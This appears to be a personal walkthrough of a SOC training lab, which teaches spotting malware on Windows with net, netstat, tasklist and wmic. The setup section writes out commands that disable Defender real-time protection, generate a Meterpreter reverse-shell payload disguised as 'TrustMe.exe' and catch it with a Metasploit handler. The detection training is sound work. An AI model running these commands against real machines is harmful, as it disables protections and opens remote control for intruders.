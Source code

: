 ```yaml
---
{"dg-publish":true,"permalink":"/bhis-antisyphon-and-webinars/black-hills-soc-core/labs/bhis-socc-lab-windows-cli/"}
---
```



## LAB: Windows CLI
[WindowsCLI.md](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/WindowsCLI/WindowsCLI.md)

In this lab, we're creating and running malware on our system, and then investigating it using [[Tool Deep-Dives/Windows/NET\|net]], [[Tool Deep-Dives/Windows/netstat\|netstat]], [[Tool Deep-Dives/Windows/tasklist\|tasklist]], and [[Tool Deep-Dives/Windows/wmic\|wmic]].

### Windows Lab
1. Get the malware going
	1. Disable protections
		1. First, we disable real time monitoring, because while it's supposed to be off, it might have turned itself back on.
		2. PowerShell, as admin: `Set-MpPreference -DisableRealtimeMonitoring $true`
		3. **You SHOULD get an error.** `A general error occurred that is not covered by a more specific error code.` is a good thing, and means it's already been disabled.
	2. Get the Linux interface name and IP
		1. The lab uses `ifconfig` and I'm used to that, but `ip a` is what all the kids are doing, and you gotta keep up with the times.
			1. Mine is `eth0` and IP `172.17.28.218/20`
			2. *Yours will be different*
	4. Create and deploy the malware
		1. In the same Linux panel, create the Meterpreter malware, and name it something totally legit, like *TrustMe.exe*^[This can be any name you want; for example, notepad.exe]
			1. We're badguys, so jumping right in with `sudo su -`
			2. Create the malware using [[Tool Deep-Dives/Metasploit/msfvenom\|msfvenom]], a Metasploit payload generator and encoder.
				1. `msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=eth0 lport=4444 -f exe -o /tmp/TrustMe.exe`
				2. **NOTE**: `lhost` can be the IP *or* the interface.
					1. I'm making this kinda copy-paste^[We'll see how that goes if/when I come back to this lab in a few weeks time.], so using `eth0` instead of my IP
			3. Check the file and move it onto the Windows system in the tools folder
				1. `cd /tmp && ls -l TrustMe.exe && cp ./TrustMe.exe /mnt/c/tools`
	5. Start the Metasploit handler^[I never met a sploit I couldn't handle.^[I'm sorry, I'm so sorry, please don't hate me.]]
		1. Create a new terminal in Linux and elevate to root
			1. `sudo su -`
		2. Configure Metasploit
			1. Launch Metasploit
				1. `msfconsole -q`
			2. Configure the handler
				1. `use exploit/multi/handler`
				2. `set PAYLOAD windows/meterpreter/reverse_tcp`
				3. `set LHOST eth0`
			3. [Run](https://www.youtube.com/watch?v=mw2kKyJu9gY)
				1. `exploit`
		3. Execute `TrustMe.exe`
			1. Open CMD as Admin, `cd \tools`, then run `TrustMe.exe`
			2. **NOTE**: While I was documenting everything, something got borked and it didn't work.
				1. I think I just took too long.
				2. I killed the Terminal, killed the "Apache Workbench" (or something similar) in Task Manager, and started from the beginning, and everything worked fine.
		4. Confirm we have access
			1. Navigate back over to the Metasploit terminal, and you should see the connection initiated
			2. ![BHIS-SOCC-lab-WindowsCLI.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI.png)
2. Create a sharedrive and some sessions
	1. This is not part of the malware section, and I think it's just setup
	2. Open CMD as Admin, and create a new shared folder
		1. `net share class=C:\Tools`
			2. `net share` creates a shared folder
			3. `class` is the name of the shared folder, and it routes to `C:\Tools`
				1. The share name could be anything; `tools`, `sharedrive`, or `BunchOfGarbageFiles`
			4. The folder can then be accessed with `\\<computer address>\class`
				1. This is either the name of the computer or its network address
				2. e.g., `\\Computer-name\class` or `\\192.168.0.1\class`
		2. `net use * \\127.0.0.1\c$`
			1. `net use` maps a network share to a local drive number
			2. `*` tells it to use the first available drive number
				1. In my case, `Z:`
			3. `\\127.0.0.1\c$` identifies the remote computer (`127.0.0.1`) and the *remote* assigned drive name (`c$`)
				1. In this case, the C drive
				2. Many years ago in a fairly unrestricted work environment, I would often remotely drop scripts and installers directly onto client computers by going to `\\JDOE-1234\c$\Installers`
					1. These files would then be accessible at `C:\Installers`
3. Find the baddies
	1. Start by checking for network shares on this computer
		1. `net session`
			1. Shows us all the remote sessions initiated on this computer.
		2. `net use`
			1. Shows all the active shared drive connections, in this case the share locally known as `Z:`, and remotely known as `\\127.0.0.1\c$`
		3. `net view \\127.0.0.1`
			1. Since we've noticed that 127 address being used in the prior two commands, we can use `net view` to investigate it a little more
			2. Shows all shared resources at `\\127.0.0.1`, which is the [loopback address](https://ccnadefinitions.com/ccna/20-definitions/i-pv4-address-classes/)^[The address the computer uses to refer to itself.] of the computer
			3. You should see a `Disk` called `class` listed here.
				1. If there were more than one share, you would see more.
	2. Let's use [[Tool Deep-Dives/Windows/netstat\|netstat]] to investigate
		1. `netstat -naob`
			1. List active processes; grab the PID for any suspicious *ESTABLISHED* sessions (e.g. `trustme.exe`)
				1. In my case, the PID is `7472`
			2. The format is a little unintuitive, but the first line is indented; The malware is highlighted below.
				1. ![BHIS-SOCC-lab-WindowsCLI-1.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-1.png)
	3. `netstat -f`
		1. Shows all established connections and their *Foreign Address* (`-f`)
			1. Domainless connections are pretty sus, and of course our malware ain't got no domain!
	4. `tasklist /m /fi "pid eq <PID>"`
		1. Find the associated file in the [[Tool Deep-Dives/Windows/tasklist\|tasklist]] and its associated modules (`/m`)
	5. `wmic process where processid=<PID> get commandline`
		1. This is way to indicate if something was launched from commandline
			1. Resources launched from commandline will typically just be the resource, and not the full path, etc.
		2. `TrustMe.exe` has a fairly simple output, but that got me thinking; let's do an experiment with Notepad.
			1. Launch Notepad in three ways:
				1. Start menu > Notepad
					1. Launching notepad like normal
				2. cmd: `C:\Users\adhd> notepad.exe /?`
					1. The `/?` will throw a syntax error, but Notepad will still launch and it gives us a clear delineator
				3. cmd: `"C:\WINDOWS\system32\notepad.exe"`
					1. This should mimic launching Notepad like a normal user
			2. Find the PIDs with `tasklist /m /fi "imagename eq notepad.exe"`
				1. ![BHIS-SOCC-lab-WindowsCLI-3.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-3.png)
			3. Take the PID from each Notepad process and run the `wmic` command from earlier.
				1. ![BHIS-SOCC-lab-WindowsCLI-4.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-4.png)
			4. As we can see, the Notepad processes with PID 7064 and 4036 look identical
	6. `wmic process get name,parentprocessid,processid`
		1. Pipe it to `| find "[PID]"` to identify all processes associated with the PID or parent PID
			1. Here, I progressively searched down the parent Process ID to see who launched what and when
			2. ![BHIS-SOCC-lab-WindowsCLI-2.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-2.png)
		2. So this is interesting, but let's go back and check our notepad example
			1. We can see the two processes we kicked off from the Terminal
				1. ![BHIS-SOCC-lab-WindowsCLI-5.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-5.png)
			2. Here I've drilled into the processes started in the Terminal
				1. The parent process is `WindowsTerminal.exe`, and we can see all the other shenanigans it's got running.
				2. ![BHIS-SOCC-lab-WindowsCLI-6.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-6.png)
			4. Here's what we see with the normally-begun process; it was started by "explorer.exe"
				1. It looks much more straightforward and clean.
				2. ![BHIS-SOCC-lab-WindowsCLI-8.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-8.png)

### Thoughts
This was interesting, but feels like it could be optimized; maybe a script that specifically looks for processes begun by PowerShell or cmd.exe, or could visualize it by showing the whole process tree of suspicious activity. Maybe a [[Tool Deep-Dives/Python/Python\|Python]] project...

#### Other tools for threat hunting
[[Tool Deep-Dives/DeepBlueCLI\|DeepBlueCLI]]
[[Tool Deep-Dives/Windows/Sysmon\|Sysmon]]
